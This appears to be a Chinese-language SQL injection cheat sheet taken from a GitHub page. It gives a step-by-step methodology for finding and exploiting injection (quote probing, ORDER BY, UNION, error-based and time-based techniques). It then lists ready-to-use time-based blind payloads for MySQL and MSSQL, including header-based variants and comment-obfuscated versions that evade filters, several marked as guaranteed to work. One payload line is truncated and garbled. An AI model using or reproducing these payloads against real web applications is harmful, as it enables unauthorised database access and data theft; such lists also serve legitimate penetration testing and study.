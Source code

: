 ~~~
~~~



~~~
%5c，%bf', 单引号，双引号，反斜杠，负数，特殊字符，and，or，xor探测是否存在注入！！！

注意：（-- ）一定要在注释符号后加空格，或者URL编码后的空格（%20），否则注释符号不会产生作用。
            注释符# --+交替用，一个不行，就另一个
1、先判断是数字型还是字符型，如果判断不出来跳到9
2、接着判断有没有括号
3、最后面跟上--+注释符
4、order by判断字段数，如果没法判断，则直接union select 1,2,3一个个测试过去
5、如果返回的页面发生变化，则联合查询
6、如果union select 1,version(),3返回的页面没有发生变化，即联合查询失败，则尝试报错注入
7、如果报错注入页面也没有把信息显示出来，则延时注入
8、如果延时注入也不行，则导入导出
9、尝试延时注入，如果从1过来的，则三种情况，直接跟payload，参数后面加单引号或者双引号
~~~



## Payload

~~~mysql
# 布尔


# 延时， 如果过了5秒才显示页面，则存在注入
mysql:        BENCHMARK(100000,MD5(1))  or sleep(5)
              id=1' and sleep( if( (select length(database()) >0) , 5, 0 ) )%23
              id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+    如果数据库的第一位不是s则延迟5秒才反应
              id=1' or sleep(ord(substr(password,1,1))) --
              id=1'XOR(sleep(if((select length(database()) >6),0,5)))XOR'Z
              id=1'and (SELECT 1 FROM (SELECT(SLEEP(5)))Gbqj) --+
              id=1'/**/AND/**/(SELECT/**/*/**/FROM/**/(SELECT(SLEEP(5)))ibEg)/**/AND/**/'        这个语句绝对ok
              Referer:1'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z
              ua:'(6),0))XOR'Z
              x-forw:'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z

mssql:        id=1' WAITFOR DELAY '0:0:5'--+                                  这个语句绝对ok
              id=1';WAITFOR DELAY '0:0:5'--+                                   这个语句绝对ok
              id=1');WAITFOR DELAY '0:0:5'--+                                  这个语句绝对ok

              id=1" WAITFOR DELAY '0:0:5'--+                                  这个语句绝对ok
              id=1";WAITFOR DELAY '0:0:5'--+                                   这个语句绝对ok
              id=1");WAITFOR DELAY '0:0:5'--+                                  这个语句绝对ok

              id=1' or 51 = '49'; WAITFOR DELAY '0:0:5'--+                     这个语句绝对ok
              id=1' AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A' --+ 
              id=1' if 1=1 waitfor delay '0:0:5' else waitfor delay '0:0:0'--+ 
                ',0)if 9527=9528-2 waitfor delay'0:0:5'--+ 
                if (system_user!='sa') waitfor delay '0:0:5' --+        这个语句绝对ok
                WHILE 2>1 PRINT 1----

                /***/and/***/sleep(/***/if(/***/(select/***/length(database())/***/>0)/***/,/***/10,/***/0/***/)/***/)%23
/***/and/***/If(ascii(substr(database(),1,1))=1,1,sleep(10))--+
/***/WAITFOR/***/DELAY/***/'0:0:10'--+
;WAITFOR/***/DELAY/***/'0:0:10'--+
);WAITFOR/***/DELAY/***/'0:0:10'--+

'/***/and/***/sleep(/***/if(/***/(select/***/length(database())/***/>0)/***/,/***/10,/***/0/***/)/***/)%23
'/***/and/***/If(ascii(substr(database(),1,1))=1,1,sleep(10))--+
~~~